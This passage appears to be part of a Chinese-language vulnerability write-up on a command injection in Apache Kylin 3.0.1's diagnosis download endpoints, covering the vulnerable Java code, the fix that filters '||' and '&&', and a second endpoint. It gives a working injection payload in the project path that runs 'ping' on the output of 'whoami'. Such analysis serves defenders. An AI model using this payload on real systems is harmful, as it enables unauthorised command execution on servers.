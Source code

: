 ```
            logger.info("CliCommandExecutor is interruppted by other, kill the sub process: " + command);
            proc.destroy();
            try {
                Thread.sleep(1000);
            } catch (InterruptedException e) {
                // do nothing
            }
            return Pair.newPair(1, "Killed");
        }

        try {
            int exitCode = proc.waitFor();
            return Pair.newPair(exitCode, result.toString());
        } catch (InterruptedException e) {
            Thread.currentThread().interrupt();
            throw new IOException(e);
        }
    }

}
```

这样我们就可以通过控制` {project}` 请求就可以造成命令注入

```
/kylin/api/diag/project/{project}/download
/kylin/api/diag/project/||ping `whoami.111.111.111`||/download
```

拼接后则出现

```
/home/admin/apache-kylin-3.0.1-bin-hbase1x/bin/diag.sh {project} {diagDir}
```

这里通过报错语句可以回显命令验证漏洞存在

```
throw new InternalErrorException("Failed to dump project diagnosis info. " + e.getMessage(), e);
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251607066.png)

在修复中，过滤了`||`,`&&`等符号，造成无法命令注入

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251608429.png)

漏洞通报中共两个利用点

```
/kylin/api/diag/project/{project}/download  
/kylin/api/diag/job/{jobId}/download
```

查看函数发现利用方式相同，直接利用`job`会失败，因为 `{project}`默认有一个`learn_kylin`，而`job`没有

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251608689.png)